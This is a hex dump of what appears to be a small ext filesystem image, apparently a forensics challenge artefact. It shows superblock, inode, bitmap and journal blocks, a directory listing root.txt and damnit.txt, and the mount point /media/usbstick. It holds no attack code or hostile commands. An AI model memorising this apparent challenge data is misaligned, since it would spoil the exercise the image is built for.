000ae90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aea0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aeb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aec0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aed0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aee0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aef0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000af90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000afa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000afb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000afc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000afd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000afe0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000aff0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b000: ff17 0000 0000 0000 0000 0000 0000 0000  ................
000b0a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b0b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b0c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b0d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b0e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b0f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b100: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b110: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b120: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b130: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b140: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b150: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b160: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b170: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b180: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b190: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b1f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b200: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b210: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b220: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b230: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b240: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b250: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b260: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b270: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b280: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b290: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b2f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b300: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b310: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b320: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b330: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b340: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b350: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b360: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b370: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b380: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b390: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b3f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000b800: 0000 0000 0000 0000 fc31 9159 fc31 9159  .........1.Y.1.Y
000b810: fc31 9159 0000 0000 0000 0000 0000 0000  .1.Y............
000b880: ed41 0000 0004 0000 eb32 9159 b334 9159  .A.......2.Y.4.Y
000b890: b334 9159 0000 0000 0000 0300 0200 0000  .4.Y............
000b8a0: 0000 0800 0300 0000 0af3 0100 0400 0000  ................
000b8b0: 0000 0000 0000 0000 0100 0000 6e01 0000  ............n...
000bb00: 8081 0000 0030 0404 fc31 9159 fc31 9159  .....0...1.Y.1.Y
000bb10: fc31 9159 0000 0000 0000 0100 9e00 0000  .1.Y............
000bb50: 0000 0000 0000 0000 0000 0000 7b01 0000  ............{...
000bb80: 8081 0000 0000 1000 fc31 9159 fc31 9159  .........1.Y.1.Y
000bb90: fc31 9159 0000 0000 0000 0100 0008 0000  .1.Y............
000bba0: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
000bbb0: 0000 0000 0000 0000 0004 0000 7c01 0000  ............|...
000bd00: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
000bd10: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
000bd20: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
000bd30: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
000bd80: a481 0000 0000 0000 ae34 9159 b334 9159  .........4.Y.4.Y
000bd90: b334 9159 b334 9159 0000 0000 0000 0000  .4.Y.4.Y........
000bda0: 0000 0800 0100 0000 0af3 0000 0400 0000  ................
000bde0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
000be00: a481 0000 8100 0000 a534 9159 e832 9159  .........4.Y.2.Y
000be10: e832 9159 0000 0000 0000 0100 0200 0000  .2.Y............
000be20: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
000be30: 0000 0000 0000 0000 0100 0000 2b20 0000  ............+ ..
000be60: 0000 0000 a121 39a6 0000 0000 0000 0000  .....!9.........
005b800: 0200 0000 0c00 0102 2e00 0000 0200 0000  ................
005b810: 0c00 0202 2e2e 0000 0b00 0000 2400 0a02  ............$...
005b820: 6c6f 7374 2b66 6f75 6e64 0000 0c00 0000  lost+found......
005b830: 1000 0801 726f 6f74 2e74 7874 0d00 0000  ....root.txt....
005b840: c403 0a01 6461 6d6e 6974 2e74 7874 0000  ....damnit.txt..
005bc00: 0b00 0000 0c00 0102 2e00 0000 0200 0000  ................
005bc10: f403 0202 2e2e 0000 0000 0000 0000 0000  ................
005c000: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005c400: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005c800: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005cc00: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005d000: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005d400: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005d800: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005dc00: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005e000: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005e400: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005e800: 0000 0000 0004 0000 0000 0000 0000 0000  ................
005ec00: 0000 0000 0300 0000 0400 0000 0500 0000  ................
005ec10: 0600 0000 0700 0000 0800 0000 0900 0000  ................
005ec20: 0a00 0000 0b00 0000 0c00 0000 0d00 0000  ................
005ec30: 0e00 0000 0f00 0000 1000 0000 1100 0000  ................
005ec40: 1200 0000 1300 0000 1400 0000 1500 0000  ................
005ec50: 1600 0000 1700 0000 1800 0000 1900 0000  ................
005ec60: 1a00 0000 1b00 0000 1c00 0000 1d00 0000  ................
005ec70: 1e00 0000 1f00 0000 2000 0000 2100 0000  ........ ...!...
005ec80: 2200 0000 2300 0000 2400 0000 2500 0000  "...#...$...%...
005ec90: 2600 0000 2700 0000 2800 0000 2900 0000  &...'...(...)...
005f000: c03b 3998 0000 0004 0000 0000 0000 0400  .;9.............
005f010: 0000 0400 0000 0001 0000 000c 0000 0000  ................
005f030: 635b cd7f 1d95 4229 bf13 3e72 2026 db3c  c[....B)..>r &.<
005f040: 0000 0001 0000 0000 0000 0000 0000 0000  ................
005f400: c03b 3998 0000 0001 0000 0009 0000 0001  .;9.............
005f420: 0000 0000 0000 002f 0000 000a 0000 0000  ......./........
005f800: 000a 0000 0028 0000 0002 0000 5922 0000  .....(......Y"..
005f810: f309 0000 0100 0000 0000 0000 0000 0000  ................
005f820: 0020 0000 0020 0000 0005 0000 8734 9159  . ... .......4.Y
005f830: 8734 9159 0700 ffff 53ef 0100 0100 0000  .4.Y....S.......
005f840: fc31 9159 0000 0000 0000 0000 0100 0000  .1.Y............
005f850: 0000 0000 0b00 0000 8000 0000 3c00 0000  ............<...
005f860: 4602 0000 7900 0000 635b cd7f 1d95 4229  F...y...c[....B)
005f870: bf13 3e72 2026 db3c 0000 0000 0000 0000  ..>r &.<........
005f880: 0000 0000 0000 0000 2f6d 6564 6961 2f75  ......../media/u
005f890: 7362 7374 6963 6b00 0000 0000 0000 0000  sbstick.........
005f8c0: 0000 0000 0000 0000 0000 0000 0000 2700  ..............'.
005f8e0: 0800 0000 0000 0000 0000 0000 d379 5a07  .............yZ.
005f8f0: d22e 4775 878b 846d 5ea6 d93e 0101 0000  ..Gu...m^..>....
005f900: 0c00 0000 0000 0000 fc31 9159 0af3 0100  .........1.Y....
005f910: 0400 0000 0000 0000 0000 0000 0004 0000  ................
005f920: 7c01 0000 0000 0000 0000 0000 0000 0000  |...............
005f940: 0000 0000 0000 0000 0000 0000 0000 1000  ................
005f960: 0100 0000 0000 0000 0000 0000 0000 0000  ................
005f970: 0000 0000 0400 0000 f405 0000 0000 0000  ................
005fd00: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
005fd10: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
005fd20: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
005fd30: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
005fd80: a481 0000 2100 0000 3a32 9159 3a32 9159  ....!...:2.Y:2.Y
005fd90: 3a32 9159 0000 0000 0000 0100 0200 0000  :2.Y............
005fda0: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
005fdb0: 0000 0000 0000 0000 0100 0000 2a20 0000  ............* ..
005fde0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
005fe00: a481 0000 8100 0000 a534 9159 e832 9159  .........4.Y.2.Y
005fe10: e832 9159 0000 0000 0000 0100 0200 0000  .2.Y............
005fe20: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
005fe30: 0000 0000 0000 0000 0100 0000 2b20 0000  ............+ ..
005fe60: 0000 0000 a121 39a6 0000 0000 0000 0000  .....!9.........
0060000: c03b 3998 0000 0002 0000 0009 0000 0000  .;9.............
0060030: 0000 0000 5991 34aa 3b9a b67d 0000 0000  ....Y.4.;..}....
0060400: c03b 3998 0000 0001 0000 000a 0000 002f  .;9............/
0060420: 0000 0000 0000 016e 0000 0002 0000 002e  .......n........
0060430: 0000 0002 0000 0001 0000 0002 0000 002b  ...............+
0060440: 0000 0002 0000 0002 0000 0002 0000 002c  ...............,
0060450: 0000 000a 0000 0000 0000 0000 0000 0000  ................
0060900: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
0060910: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
0060920: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
0060930: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
0060980: a481 0000 0000 0000 ae34 9159 b334 9159  .........4.Y.4.Y
0060990: b334 9159 b334 9159 0000 0000 0000 0000  .4.Y.4.Y........
00609a0: 0000 0800 0100 0000 0af3 0000 0400 0000  ................
00609e0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
0060a00: a481 0000 8100 0000 a534 9159 e832 9159  .........4.Y.2.Y
0060a10: e832 9159 0000 0000 0000 0100 0200 0000  .2.Y............
0060a20: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
0060a30: 0000 0000 0000 0000 0100 0000 2b20 0000  ............+ ..
0060a60: 0000 0000 a121 39a6 0000 0000 0000 0000  .....!9.........
0060c00: 0200 0000 0c00 0102 2e00 0000 0200 0000  ................
0060c10: 0c00 0202 2e2e 0000 0b00 0000 2400 0a02  ............$...
0060c20: 6c6f 7374 2b66 6f75 6e64 0000 0c00 0000  lost+found......
0060c30: 1000 0801 726f 6f74 2e74 7874 0d00 0000  ....root.txt....
0060c40: c403 0a01 6461 6d6e 6974 2e74 7874 0000  ....damnit.txt..
0061000: 0000 0000 0000 0000 fc31 9159 fc31 9159  .........1.Y.1.Y
0061010: fc31 9159 0000 0000 0000 0000 0000 0000  .1.Y............
0061080: ed41 0000 0004 0000 eb32 9159 b334 9159  .A.......2.Y.4.Y
0061090: b334 9159 0000 0000 0000 0300 0200 0000  .4.Y............
00610a0: 0000 0800 0300 0000 0af3 0100 0400 0000  ................
00610b0: 0000 0000 0000 0000 0100 0000 6e01 0000  ............n...
0061300: 8081 0000 0030 0404 fc31 9159 fc31 9159  .....0...1.Y.1.Y
0061310: fc31 9159 0000 0000 0000 0100 9e00 0000  .1.Y............
0061350: 0000 0000 0000 0000 0000 0000 7b01 0000  ............{...
0061380: 8081 0000 0000 1000 fc31 9159 fc31 9159  .........1.Y.1.Y
0061390: fc31 9159 0000 0000 0000 0100 0008 0000  .1.Y............
00613a0: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
00613b0: 0000 0000 0000 0000 0004 0000 7c01 0000  ............|...
0061400: 000a 0000 0028 0000 0002 0000 5922 0000  .....(......Y"..
0061410: f309 0000 0100 0000 0000 0000 0000 0000  ................
0061420: 0020 0000 0020 0000 0005 0000 8734 9159  . ... .......4.Y
0061430: 8734 9159 0700 ffff 53ef 0100 0100 0000  .4.Y....S.......
0061440: fc31 9159 0000 0000 0000 0000 0100 0000  .1.Y............
0061450: 0000 0000 0b00 0000 8000 0000 3c00 0000  ............<...
0061460: 4602 0000 7900 0000 635b cd7f 1d95 4229  F...y...c[....B)
0061470: bf13 3e72 2026 db3c 0000 0000 0000 0000  ..>r &.<........
0061480: 0000 0000 0000 0000 2f6d 6564 6961 2f75  ......../media/u
0061490: 7362 7374 6963 6b00 0000 0000 0000 0000  sbstick.........
00614c0: 0000 0000 0000 0000 0000 0000 0000 2700  ..............'.
00614e0: 0800 0000 0000 0000 0000 0000 d379 5a07  .............yZ.
00614f0: d22e 4775 878b 846d 5ea6 d93e 0101 0000  ..Gu...m^..>....
0061500: 0c00 0000 0000 0000 fc31 9159 0af3 0100  .........1.Y....
0061510: 0400 0000 0000 0000 0000 0000 0004 0000  ................
0061520: 7c01 0000 0000 0000 0000 0000 0000 0000  |...............
0061540: 0000 0000 0000 0000 0000 0000 0000 1000  ................
0061560: 0100 0000 0000 0000 0000 0000 0000 0000  ................
0061570: 0000 0000 0400 0000 f405 0000 0000 0000  ................
0061800: ffff ffff ff05 0000 0000 0000 0000 0000  ................
00618f0: 0000 0000 0000 0000 0000 0000 0000 0080  ................
0061900: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061910: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061920: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061930: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061940: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061950: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061960: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061970: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061980: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061990: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00619f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061a90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061aa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061ab0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061ac0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061ad0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061ae0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061af0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061b90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061ba0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061bb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061bc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061bd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061be0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061bf0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0061c00: 2a00 0000 2c00 0000 2e00 0000 851a f404  *...,...........
0061c10: 0200 0400 0000 0000 0000 0000 f304 b77d  ...............}
0061c20: 2b00 0000 2d00 0000 ce00 0000 d507 0005  +...-...........
0061c30: 0000 0500 0000 0000 0000 0000 0005 d588  ................
0062000: ff17 0000 0000 0000 0000 0000 0000 0000  ................
00620a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00620b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00620c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00620d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00620e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00620f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062100: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062110: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062120: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062130: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062140: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062150: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062160: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062170: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062180: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062190: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00621f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062200: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062210: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062220: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062230: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062240: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062250: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062260: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062270: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062280: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062290: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00622f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062300: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062310: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062320: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062330: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062340: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062350: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062360: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062370: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062380: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062390: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00623f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062400: c03b 3998 0000 0002 0000 000a 0000 0000  .;9.............
0062430: 0000 0000 5991 34b4 3b23 5393 0000 0000  ....Y.4.;#S.....
0062800: ffff ffff ff03 0000 0000 0000 0000 0000  ................
00628f0: 0000 0000 0000 0000 0000 0000 0000 0080  ................
0062900: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062910: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062920: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062930: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062940: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062950: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062960: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062970: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062980: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062990: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00629f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062a90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062aa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062ab0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062ac0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062ad0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062ae0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062af0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062b90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062ba0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062bb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062bc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062bd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062be0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062bf0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0062c00: 2a00 0000 2c00 0000 2e00 0000 851a f404  *...,...........
0062c10: 0200 0400 0000 0000 0000 0000 f404 b54d  ...............M
0062c20: 2b00 0000 2d00 0000 ce00 0000 d507 0005  +...-...........
0062c30: 0000 0500 0000 0000 0000 0000 0005 d588  ................
0063100: c041 0000 0030 0000 fc31 9159 fc31 9159  .A...0...1.Y.1.Y
0063110: fc31 9159 0000 0000 0000 0200 1800 0000  .1.Y............
0063120: 0000 0800 0000 0000 0af3 0100 0400 0000  ................
0063130: 0000 0000 0000 0000 0c00 0000 6f01 0000  ............o...
0063180: a481 0000 2100 0000 3a32 9159 3a32 9159  ....!...:2.Y:2.Y
0063190: 3a32 9159 0000 0000 0000 0100 0200 0000  :2.Y............
00631a0: 0000 0800 0100 0000 0af3 0100 0400 0000  ................
00631b0: 0000 0000 0000 0000 0100 0000 2a20 0000  ............* ..
00631e0: 0000 0000 a021 39a6 0000 0000 0000 0000  .....!9.........
0063400: c03b 3998 0000 0002 0000 0004 0000 0000  .;9.............
0063430: 0000 0000 5991 325d 385e c737 0000 0000  ....Y.2]8^.7....
0063800: c03b 3998 0000 0001 0000 0005 0000 002c  .;9............,
0063820: 0000 0000 0000 0002 0000 0002 0000 002f  .............../
0063830: 0000 0002 0000 002e 0000 0002 0000 016e  ...............n
0063840: 0000 000a 0000 0000 0000 0000 0000 0000  ................
0063c00: ff1f 0000 0000 0000 0000 0000 0000 0000  ................
0063ca0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063cb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063cc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063cd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063ce0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063cf0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d30: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d40: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d50: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d60: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d70: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d80: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063d90: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063da0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063db0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063dc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063dd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063de0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063df0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e00: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e10: ffff ffff ffff ffff ffff ffff ffff ffff  ................
0063e20: ffff ffff ffff ffff ffff ffff ffff ffff  ................
